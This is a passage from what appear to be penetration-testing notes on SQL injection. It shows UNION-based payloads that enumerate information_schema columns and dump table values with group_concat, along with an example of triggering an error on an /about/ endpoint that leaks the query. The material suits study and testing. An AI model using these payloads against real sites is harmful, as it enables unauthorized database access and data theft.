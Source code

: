 ***

* Check information schema for DB and tables information

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue UNION $found,group_concat(colum_name) FROM information_schema.columns WHERE table_name = '$tablefound'
#This will return a string with all columns of the table
```
{% endcode %}

***

* Obtain the values that we were looking for

{% code overflow="wrap" lineNumbers="true" %}
```sql
0 UNION SELECT 1,2,group_concat($value1,$value2) FROM $tablefound
#Obtain values from the table we needed
```
{% endcode %}

***

#### <mark style="color:orange;">Case 2</mark>

* Check if  vulnerable by sending a malformed petition with `'`

{% code overflow="wrap" lineNumbers="true" %}
```sql
"GET /about/2' HTTP/1.1"
#We obtain a 500 error and this code
<code>SELECT firstName, lastName, pfpLink, role, bio FROM $tablename WHERE id = 2'</code>
```
{% endcode %}

***

* As we know the number of columns, we make a union to select the _column\_name_ parameter and leave the other columns as null to avoid error. Then we obtain info from the default db _information\_schema_ and select the _column_ parameter specifying the name of the table we need

{% code overflow="wrap" lineNumbers="true" %}
```sql
#Make the petition to an invalid value (-1) to avoid displaying an entry of the database instead of the column name
/about/-1 UNION ALL SELECT column_name,null,null,null,null FROM information_schema.columns WHERE table_name='$tablename'

 About | id None #The result obtained in the response
```
{% endcode %}

***

* Use _group\_concat()_ to get all columns
